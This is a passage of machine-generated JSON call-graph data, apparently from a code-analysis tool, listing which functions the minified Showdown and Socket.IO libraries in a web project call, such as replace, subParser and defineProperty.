"static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "search"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "search"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "search"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "search"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "search"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isUndefined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isUndefined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "_dispatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "padEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "padEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "padEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "unescapeHTMLEntities"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "listeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "construct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 